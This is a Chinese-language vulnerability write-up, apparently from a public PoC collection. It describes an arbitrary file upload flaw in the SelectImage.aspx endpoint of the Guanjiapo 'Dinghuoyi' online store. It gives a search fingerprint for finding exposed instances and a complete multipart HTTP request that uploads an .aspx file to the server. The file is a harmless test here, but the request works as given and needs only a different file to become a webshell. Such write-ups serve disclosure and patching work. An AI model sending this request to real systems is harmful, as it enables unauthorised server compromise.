

# 任我行 管家婆 订货易在线商城 SelectImage.aspx 任意文件上传漏洞

## 漏洞描述

任我行率先针对中小企业推出了管家婆进销存、财务一体化软件。

管家婆订货易在线商城存在 SelectImage.aspx 任意文件上传漏洞，攻击者可通过该漏洞可控制整个系统，最终导致系统处于极度不安全状态。

## 漏洞影响

管家婆 订货易在线商城

## 网络测绘

```
title="订货易"
```

## 漏洞复现

登陆页面



poc

```
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="TEST.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--"
```

